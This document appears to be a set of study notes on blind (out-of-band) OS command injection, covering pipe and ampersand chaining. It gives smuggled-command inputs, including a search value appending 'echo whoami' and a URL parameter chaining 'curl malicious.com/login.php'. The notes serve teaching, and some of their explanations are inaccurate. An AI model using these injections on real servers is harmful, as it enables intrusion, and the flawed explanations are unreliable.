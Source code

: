 Out of Band

> An Attacker is able to trick the web application into executing command on the web application but does not receive response in the web application and the attacker has to relay on indirect methods to confirm if the OS Out of band Command injection works
>
> This also known as Blind Injection or out or band injection.
>
> > Attacker  use external methods to confirm the command injected executed.

Example

> A search function on a website allows user to search for products by name,
>
> Normally user search for 'apple'.
>
> Attacker searches for 'apple; echo whoami > whoami.txt'
>
> Server execute is search apple; echo whoami > whoami.txt
>
> Attacker has to Directory Traversal or use /whoami.txt to check if the injection works.
>
> > If curl is in the Server use the CURL to confirm the injection
> >
> > > [https://webapplication.com/weather?city=mumbai&&](https://webapplication.com/weather?city=mumbai&\&ls) curl malicious.com/login.php
> > >
> > > So the server execute the Command is&#x20;
> > >
> > > weather.sh --city=mumbai&& curl malicious.com/login.php
> > >
> > > And attacker can monitor if the network traffic received then the Out of band works.

{% hint style="info" %}
Command Injection Breaks the CIA.
{% endhint %}

### Executing Command Injection

Piping `|`

> Used to chain commands together, Passing the output of one command as input to another
>
> > It used for filtering data.
> >
> > `command1 | command2`&#x20;
> >
> > > `ls | grep 'txt'`

Single Ampersand &

> Runs the commands in background and returns to the console.
>
> > `command1 & command2`
> >
> > > `sleep 10 & echo "Done"`
